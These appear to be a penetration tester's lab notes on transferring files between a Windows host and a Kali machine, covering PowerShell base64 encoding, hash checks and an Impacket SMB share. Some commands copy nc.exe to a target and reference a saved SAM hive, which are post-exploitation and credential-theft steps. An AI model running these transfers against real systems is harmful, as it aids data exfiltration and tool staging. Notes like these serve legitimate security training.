 # Windows - upload to kali

## Transfer via base64

run in windows from where we want to transfer


```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Users\ASUS\Desktop\test.py" -Encoding byte))
<random_string_generated>
```


get that string which generated by above command


```bash
echo paste_that_random_string_generated" | base64 -d > test.py
```


### check integrity

to check file hash in linux

```bash
md5sum file.txt 
```

to verify that hash


```
Get-FileHash C:\sam.save -Algorithm md5
```



## SMB Downloads

^e37ea8

Creating and using an SMB server with Impacket:

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

Accessing the SMB share:

```powershell
copy \\192.168.220.133\share\nc.exe
```

if unauthenticated error then give username and password while making server

```
sudo impacket-smbserver share -smb2support . -user test -password test
```

```
net use n: \\192.168.45.216\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe \\IP\share
        1 file(s) copied.
```